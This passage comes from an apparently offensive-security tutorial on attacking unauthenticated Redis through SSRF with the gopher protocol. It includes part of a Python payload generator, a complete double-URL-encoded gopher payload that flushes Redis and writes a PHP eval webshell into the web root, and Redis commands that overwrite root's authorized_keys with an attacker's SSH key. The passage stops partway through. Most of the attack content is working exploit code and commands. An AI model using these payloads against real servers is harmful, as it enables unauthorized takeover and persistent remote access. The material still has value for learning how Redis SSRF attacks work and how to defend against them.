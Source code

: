 ```python
		cmd += CRLF + "$" + str(len((x.replace("${IFS}", " "))))) + CRLF + x.replace("${IFS}", " "))
	cmd += CRLF
	return cmd

if __name__=="__main__":
	for x in cmd:
		payload += urllib.quote(redis_format(x))
	print payload
```

 - Perform the generated `url` quadratic encoding (because we use the GET method to send the payload), and then use the `SSRF` vulnerability on the victim server to use the quadratic encoding `payload` to attack:

```bash
gopher%3A%2F%2F192.168.249.145%3A6379%2F_%252A1%250D%250A%25248%250D%250Aflushall%250D%250A%252A3%250D%250A%25243%250D%250Aset%250D%250A%25244%250D%250Assrf%250D %250A%252431%250D%250A%250A%250A%253C%253Fphp%2520eval%2528%2524_POST%255B%2522h3%2522%255D%2529%253B%253F%253E%250A%250D%250A%252A4%250D%250A%25246%250D%25 0Aconfig%250D%250A%25243%250D%250Aset%250D%250A%25243%250D%250Adir%250D%250A%252413%250D%250A%2Fvar%2Fwww%2Fhtml%250D%250A%252A4%250D%250A%25246%250D%250Aconfig% 250D%250A%25243%250D%250Aset%250D%250A%252410%250D%250Adbfilename%250D%250A%252414%250D%250Ashell_ssrf.php%250D%250A%252A1%250D%250A%25244%250D%250Asave%250D%250A
```

 - Check the `Web` server of the victim machine and successfully write to the `Webshell`:

<div align=center><img src="./images/11.png"></div>

### Write SSH public key with Redis
Similar to the method of writing `SSH` public key using `Redis` mentioned above, here is just using the `Gohper` protocol to conduct attacks. I will not give a specific demonstration here, and give an attack `Payload`:

Operation steps:
 - Generate `ssh` public key in the attack machine's `/root/.ssh` directory:

```bash
ssh-keygen -t rsa
```

 - Use the generated `id_rsa.pub` content to construct the `Redis` command:

```bash
flushall
set ssrf 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC96S69JNdIOUWoHYOvxpnQxHAVZHl25IkDFBzTbDIbJBBABu8vqZg2GFaWhTa2jSWqMZiYwyPimrXs+XU1kbP4P28yFvofuWR6fYzgrybe O0KX7YmZ4xN4LWaZYEeCxzJrV7BU9wWZIGZiX7Yt5T5M3bOKofxTqqMJaRP7J1Fn9fRq3ePz17BUJNtmRx54I3CpUyigcMSTvQOawwTtXa1ZcS056mjPrKHHBNB2/hKINtJj1JX8 R5Uz+3six+MVsxANT+xOMdjCq++1skSnPczQz2GmlvfAObngQK2Eqim+6xewOL+Zd2bTsWiLzLFpcFWJeoB3z209solGOSkF8nSZK1rDJ4FmZAUvl1RL5BSe/LjJO6+59ihSRFWu 99N3CJcRgXLmc4MAzO4LFF3nhtq0YrIUio0qKsOmt13L0YgSHw2KzCNw4d9Hl3wiIN5ejqEztRi97x8nzAM7WvFq71fBdybzp8eLjiR8oq6ro228BdsAJYevXZPeVxjga4PDtPk= root@kali'
config set dir /root/.ssh/
config set dbfilename authorized_keys
save
```
- Use Python to convert the Redis command above to the Gopher protocol format:
